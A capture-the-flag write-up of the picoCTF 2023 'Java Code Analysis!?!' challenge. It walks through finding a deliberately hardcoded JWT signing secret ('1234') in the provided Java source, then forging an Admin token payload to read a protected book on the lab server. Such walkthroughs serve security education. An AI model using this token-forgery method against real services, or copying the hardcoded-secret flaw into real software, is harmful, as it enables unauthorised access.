







# Java Code Analysis!?!

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Points: 300
Tags: picoCTF 2023, Web Exploitation
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Author: Nandan Desai

Description:
BookShelf Pico, my premium online book-reading service.

I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!

Here are the credentials to get you started:

Username: "user"
Password: "user"

Source code can be downloaded here.
Website can be accessed here!.

Hints:
1. Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? 
   Or maybe try to crack it?
2. The 'role' and 'userId' fields in the JWT can be of interest to you!
3. The 'controllers', 'services' and 'security' java packages in the given source code might need your 
   attention. We've provided a README.md file that contains some documentation.
4. Upgrade your 'role' with the new (cracked) JWT. And re-login for the new role to get reflected in 
   browser's localStorage.
```

Challenge link: [https://learn.cylabacademy.org/library/355](https://learn.cylabacademy.org/library/355)

## Solution

### Analyse the web site

We start by browsing to the web site (`http://saturn.picoctf.net:53924/`) and find a login portal:



After loging in with the test user (`user:user`) we come to this page:



As expected, if we try to access the `Flag` book we get an `You don't have permissions to view this book` error message.  
We need to have Admin role to access this special book!

### Analyse the JWT token

Next, we analyse the [JWT]((https://en.wikipedia.org/wiki/JSON_Web_Token)) (JSON Web Token) by starting DevTools with `F12` and navigate to the `Application` tab.
Under `Local Storage` we find the `auth_token`:



The JWT is based on JSON and is Base64-encoded. The token consists of three parts separated by dots (`.`):

- Header
- Payload
- Signature

We can decode it on online sites such as:

- [https://www.jwt.io/](https://www.jwt.io/)
- [https://jwt.rocks/](https://jwt.rocks/)
- [https://jwt.one/](https://jwt.one/)
- [https://www.token.dev/jwt/](https://www.token.dev/jwt/)



### Analyse the source code

Then we check out the source code. First we unpack the Zip-file and search for anything JWT-related

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Web_Explotation/Java_Code_Analysis]
└─$ unzip bookshelf-pico.zip 
Archive:  bookshelf-pico.zip
   creating: gradle/
   creating: gradle/wrapper/
  inflating: gradle/wrapper/gradle-wrapper.jar  
  inflating: gradle/wrapper/gradle-wrapper.properties  
   creating: src/
   creating: src/main/
   creating: src/main/java/
   creating: src/main/java/io/
   creating: src/main/java/io/github/
   creating: src/main/java/io/github/nandandesai/
   creating: src/main/java/io/github/nandandesai/pico/
<---snip--->

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Web_Explotation/Java_Code_Analysis]
└─$ grep -iR jwt src 
src/main/java/io/github/nandandesai/pico/security/JwtService.java:import com.auth0.jwt.JWT;
src/main/java/io/github/nandandesai/pico/security/JwtService.java:import com.auth0.jwt.JWTVerifier;
src/main/java/io/github/nandandesai/pico/security/JwtService.java:import com.auth0.jwt.algorithms.Algorithm;
src/main/java/io/github/nandandesai/pico/security/JwtService.java:import com.auth0.jwt.exceptions.JWTVerificationException;
src/main/java/io/github/nandandesai/pico/security/JwtService.java:import com.auth0.jwt.interfaces.DecodedJWT;
src/main/java/io/github/nandandesai/pico/security/JwtService.java:import io.github.nandandesai.pico.security.models.JwtUserInfo;
src/main/java/io/github/nandandesai/pico/security/JwtService.java:public class JwtService {
src/main/java/io/github/nandandesai/pico/security/JwtService.java:    public JwtService(SecretGenerator secretGenerator){
src/main/java/io/github/nandandesai/pico/security/JwtService.java:        return JWT.create()
src/main/java/io/github/nandandesai/pico/security/JwtService.java:    public JwtUserInfo decodeToken(String token) throws JWTVerificationException {
src/main/java/io/github/nandandesai/pico/security/JwtService.java:        JWTVerifier verifier = JWT.require(algorithm)
src/main/java/io/github/nandandesai/pico/security/JwtService.java:        DecodedJWT jwt = verifier.verify(token);
src/main/java/io/github/nandandesai/pico/security/JwtService.java:        Integer userId = jwt.getClaim(CLAIM_KEY_USER_ID).asInt();
src/main/java/io/github/nandandesai/pico/security/JwtService.java:        String email = jwt.getClaim(CLAIM_KEY_EMAIL).asString();
src/main/java/io/github/nandandesai/pico/security/JwtService.java:        String role = jwt.getClaim(CLAIM_KEY_ROLE).asString();
src/main/java/io/github/nandandesai/pico/security/JwtService.java:        return new JwtUserInfo().setEmail(email)
src/main/java/io/github/nandandesai/pico/security/models/JwtUserInfo.java:* This class will hold the claim values that are extracted from the JWT
src/main/java/io/github/nandandesai/pico/security/models/JwtUserInfo.java:public class JwtUserInfo {
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:import com.auth0.jwt.exceptions.JWTVerificationException;
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:import io.github.nandandesai.pico.security.models.JwtUserInfo;
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:    private JwtService jwtService;
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:        String token = null; //jwt
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:        JwtUserInfo jwtUserInfo = null;
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:                jwtUserInfo = jwtService.decodeToken(token);
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:            }catch (JWTVerificationException jwtAuthException){
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:                TokenException ex = new TokenException(jwtAuthException.getMessage());
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:        if (jwtUserInfo != null && SecurityContextHolder.getContext().getAuthentication() == null) {
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:            grantedAuthorities.add(new UserAuthority(jwtUserInfo.getUserId(), jwtUserInfo.getRole()));
src/main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java:            UserSecurityDetails userSecurityDetails = new UserSecurityDetails(jwtUserInfo.getEmail(), "", grantedAuthorities);
src/main/java/io/github/nandandesai/pico/services/UserService.java:import io.github.nandandesai.pico.security.JwtService;
src/main/java/io/github/nandandesai/pico/services/UserService.java:    private JwtService jwtService;
src/main/java/io/github/nandandesai/pico/services/UserService.java:    //returns jwt if success
src/main/java/io/github/nandandesai/pico/services/UserService.java:    //returns a JWT if success
src/main/java/io/github/nandandesai/pico/services/UserService.java:        return jwtService.createToken(userId, email, role);
src/main/resources/public/3rdpartylicenses.txt:jwt-decode
grep: src/main/resources/public/roboto-latin-500.cea99d3e3e13a3a599a0.woff: binary file matches
```

We also look for files related to `password` and `secret`

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF_2023/Web_Explotation/Java_Code_Analysis/src]
└─$ grep -iRl password . 
./main/java/io/github/nandandesai/pico/configs/BookShelfConfig.java
./main/java/io/github/nandandesai/pico/controllers/UserController.java
./main/java/io/github/nandandesai/pico/dto/requests/UpdateUserPasswordRequest.java
./main/java/io/github/nandandesai/pico/dto/requests/UserLoginRequest.java
./main/java/io/github/nandandesai/pico/dto/requests/UserSignUpRequest.java
./main/java/io/github/nandandesai/pico/models/User.java
./main/java/io/github/nandandesai/pico/security/models/UserSecurityDetails.java
./main/java/io/github/nandandesai/pico/security/ReauthenticationFilter.java
./main/java/io/github/nandandesai/pico/security/SecurityConfig.java
./main/java/io/github/nandandesai/pico/services/UserService.java
./main/java/io/github/nandandesai/pico/validators/PasswordConstraintValidator.java
./main/java/io/github/nandandesai/pico/validators/ValidPassword.java
./main/resources/public/assets/pdf.worker.es5.v2.5.207.js
./main/resources/public/main.e4577fe86905373d4f38.js

┌──(kali㉿kali)-[/mnt/…/picoCTF_2023/Web_Explotation/Java_Code_Analysis/src]
└─$ grep -iRl secret .  
./main/java/io/github/nandandesai/pico/security/JwtService.java
./main/java/io/github/nandandesai/pico/security/SecretGenerator.java
./main/resources/public/assets/pdf.worker.es5.v2.5.207.js
```

In the file `SecretGenerator.java` we find the secret key to sign the token (`1234`).

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF_2023/Web_Explotation/Java_Code_Analysis/src]
└─$ cat ./main/java/io/github/nandandesai/pico/security/SecretGenerator.java
package io.github.nandandesai.pico.security;

import io.github.nandandesai.pico.configs.UserDataPaths;
import io.github.nandandesai.pico.utils.FileOperation;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Service;

import java.io.IOException;
import java.nio.charset.Charset;

@Service
class SecretGenerator {
    private Logger logger = LoggerFactory.getLogger(SecretGenerator.class);
    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";

    @Autowired
    private UserDataPaths userDataPaths;

    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }

    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
}
```

And in `BookShelfConfig.java` we find more info about what the settings for the `Admin` user should be

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF_2023/Web_Explotation/Java_Code_Analysis/src]
└─$ cat ./main/java/io/github/nandandesai/pico/configs/BookShelfConfig.java
package io.github.nandandesai.pico.configs;

<---snip--->
            if (dbDataDir.isDirectory()) {
                Role FreeRole = roleRepository.findById("Free").get();
                Role PremiumRole = roleRepository.findById("Premium").get();
                Role AdminRole = roleRepository.findById("Admin").get();

                /*
                 * Initialize admin and a user
                 * */
                User freeUser = new User();
                freeUser.setProfilePicName("default-avatar.png")
                        .setRole(FreeRole)
                        .setLastLogin(LocalDateTime.now())
                        .setFullName("User")
                        .setEmail("user")
                        .setPassword(passwordEncoder.encode("user"));
                userRepository.save(freeUser);

                User admin = new User();
                admin.setProfilePicName("default-avatar.png")
                        .setRole(AdminRole)
                        .setLastLogin(LocalDateTime.now())
                        .setFullName("Admin")
                        .setEmail("admin")
                        .setPassword(passwordEncoder.encode("<redacted>"));
                userRepository.save(admin);

                logger.info("initialized 'admin' and 'user' users.");
<---snip--->
```

Finally, in `Role.java` we get more info about the role ID.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF_2023/Web_Explotation/Java_Code_Analysis/src]
└─$ cat ./main/java/io/github/nandandesai/pico/models/Role.java
package io.github.nandandesai.pico.models;

import lombok.Getter;
import lombok.NoArgsConstructor;
import lombok.Setter;
import lombok.experimental.Accessors;

import javax.persistence.*;

@Getter
@Setter
@NoArgsConstructor
@Accessors(chain = true)
@Entity
@Table(name = "roles")
public class Role {
    @Id
    @Column
    private String name;

    @Column
    private Integer value; //higher the value, more the privilege. By this logic, admin is supposed to
    // have the highest value
}
```

So the value for `Admin` ought to be either 2 or 3.

### Modify the token

We need to change the payload to the following

```json
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1784541379,
  "iat": 1783936579,
  "userId": 2,
  "email": "admin"
}
```

and create a new valid signature. Note that both `exp` and `iat` are Unix epoch timestamps and will differ in your case!

We use [https://www.jwt.io/](https://www.jwt.io/) in `JWT Encode` for this



### Update Local Storage

Next, we update both the new `auth` token and the `token-payload` in the web browser.



### Get the flag

Finally, we press `F5` to refresh the page and get the flag.



For additional information, please see the references below.

## References

- [Base64 - Wikipedia](https://en.wikipedia.org/wiki/Base64)
- [Epoch (computing) - Wikipedia](https://en.wikipedia.org/wiki/Epoch_(computing))
- [JavaScript - Wikipedia](https://en.wikipedia.org/wiki/JavaScript)
- [JSON - Wikipedia](https://en.wikipedia.org/wiki/JSON)
- [JSON Web Token (JWT) Debugger](https://www.jwt.io/)
- [JSON Web Token - Wikipedia](https://en.wikipedia.org/wiki/JSON_Web_Token)
- [unzip - Linux manual page](https://linux.die.net/man/1/unzip)
